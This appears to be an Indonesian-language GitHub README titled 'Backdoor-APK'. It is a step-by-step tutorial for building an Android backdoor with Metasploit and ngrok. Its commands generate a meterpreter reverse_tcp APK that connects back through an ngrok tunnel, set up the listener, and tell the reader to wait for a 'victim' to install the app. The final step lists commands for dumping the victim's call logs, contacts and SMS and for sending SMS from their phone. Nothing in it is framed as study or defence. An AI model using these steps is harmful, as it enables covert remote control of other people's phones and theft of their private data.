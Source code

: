 # Backdoor-APK
Cara Membuat Backdoor Untuk Android Dengan Metaspolit Dan Ngrok

**1. Install Metasploit**

**2. Install Ngrok**

**3. Buat Akun Ngrok**

**4. Masukkan Token Ngrok**
<br> `$./ngrok authtoken "Masukkan Token" ;`

**5. Buat Port Ngrok**
<br> `$./ngrok http 4455`

**6. Melihat Status Ngrok**
<br> `$ngrok tcp 4455 (port sesuai yang kita buat di awal)`

**7. Jalankan Metasploit**
<br> `$msfvenom -p android/meterpreter/reverse_tcp LHOST=0.tcp.ngrok.io LPORT=11610 R > /home/x-ploit001/Backdoor.apk`
<br> `Ket. Untuk LHOST dan LPORT diambil dari forwarding status ngrok`

**8. Menjalankan Msfconsole**
<br> `$msfconsole`

**9. EKSEKUSI**
<br> `msf > use multi/handler`
<br> `msf exploit(muti/handler) > set payload android/meterpreter/reverse_tcp`
<br> `msf exploit(muti/handler) > set lhost 0.0.0.0`
<br> `msf exploit(muti/handler) > set lport 4455`
<br> `msf exploit(muti/handler) > exploit`

**10. Menunggu Korban Install APK**

**11. Perintah Remoting**
<br> `dump_callog (Mendapatkan log panggilan di hp korban)`
<br> `dump_contacs (Mendapatkan kontak di hp korban)`
<br> `dump_sms (Mendapatkan sms masuk dan keluar di hp korban)`
<br> `send_sms (Mengirim sms menggunakan hp korban)`
